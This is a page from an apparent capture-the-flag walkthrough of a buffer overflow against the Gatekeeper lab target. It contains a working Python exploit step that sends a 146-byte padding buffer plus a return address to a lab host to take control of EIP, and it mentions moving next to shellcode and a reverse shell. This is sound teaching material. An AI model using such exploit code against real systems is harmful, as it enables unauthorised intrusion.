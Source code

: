 This step is to confirm that the base address that we found via Mona can get us to EIP. Let's restart the debugger and set a break point by entering the first base address:

![Break Point](breakPoint.png)

After that hit F2 to set the break point. When the program crashes, it won't go further than this address. Let's run our Python script:
```Python
#!/usr/bin/python

import socket,sys

buffer = "A"*146 + "\xc3\x14\x04\x08" 
RHOST = "192.168.0.227"
RPORT = 31337

try:
    s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((RHOST,RPORT))
    s.send((buffer + "\r\n"))
    s.close()
    
except:
    print("Error connecting to server")
    sys.exit
```
After running our ownEIP Python script, we can see that the program crashes at 080414C3 so we own EIP:

![Own EIP](ownEIP.png)

Now, we can move onto the last stage, generating a shellcode and getting a reverse shell back on our Kali machine.

[<= Go Back to Gatekeeper Menu](GatekeeperMain.md)

[<= Go Back to BOF Menu](BOFMain.md)

[<= Go Back to Main Menu](index.md)
